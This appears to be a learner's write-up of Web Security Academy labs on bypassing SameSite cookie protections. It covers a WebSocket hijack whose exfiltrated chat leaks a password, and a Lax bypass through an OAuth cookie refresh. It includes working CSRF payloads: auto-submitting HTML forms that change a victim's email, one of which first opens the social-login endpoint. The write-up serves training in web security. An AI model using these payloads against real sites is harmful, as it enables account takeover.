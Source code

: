 Store, clean collaborator history and deilver exploit to victim. Nice, we obtain the chat of the victim, one of the requests made to the collaborator is

```
{"user":"Hal Pline","content":"No problem carlos, it's cvnazj3mhvdevsqv1gam"}
```

Remember, this is possible because we discover a XSS in cms subdomain and this allow us to avoid the SameSite=Strict draggin the same session.

# SameSite Lax bypass via cookie refresh

When the SameSite is setting in Lax in place of strict the cookie can be send in request in the same web or in requests GET with another sites.

In the description of this lab tell us that the user use OAuth-base login, this allow to log in in different domains, microsoft, github... to retrieve some information, email, name... In this case is a invented social media.

First of all is use foxyproyxy to turn on our burpsuite proxy and save all the response and request in burp, then we can try to login with `wiener:peter`.

The requests flow is the following:

- When the page redirect to social media login use the endpoint `/social-login`, in the code of the request we see that we have a session cookie
- In `oauth-callback?code=...` we see that in the request is using the same session cookie that in `/social-login` but in the response the session cookie change to another value and in the following requests is using this new cookie(because set with the header Set-Cookie: session...)

In our exploit server we can try to change the email because we don't see any flag like SameSite=Strict or something like that when set the new cookie.

```html
<form class="login-form" name="change-email-form" action="https://0a25004704720d218297fb6100270005.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

If we click in the button 'view exploit' we see that is valid and change our email, but if we 'deliver exploit to victim' doesn't work because is possible that the victim not logged in.

If the user is not logged have another session cookie(remember that change the session cookie when login with oauth).

If you log out and log in again you see that you don't have to introduce the credentials, automatically log in, we can try to go to that endpoint open a new tab.

```html
<form class="login-form" name="change-email-form" action="https://0a25004704720d218297fb6100270005.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
    window.open("https://0a25004704720d218297fb6100270005.web-security-academy.net/social-login");
    document.forms[0].submit();
</script>
```
